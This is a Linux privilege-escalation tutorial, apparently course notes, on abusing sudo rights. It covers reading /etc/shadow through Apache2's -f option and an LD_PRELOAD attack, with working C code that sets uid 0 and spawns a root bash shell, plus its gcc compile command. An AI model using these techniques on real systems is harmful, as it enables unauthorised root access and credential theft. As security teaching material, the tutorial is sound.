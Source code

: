 ## Sudo
The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the` sudo -l` command.

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

### Leverage application functions
Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

### Leverage LD_PRELOAD
On some systems, you may see the LD_PRELOAD environment option.

LD_PRELOAD is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;
1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

```c++
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as `shell.c` and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
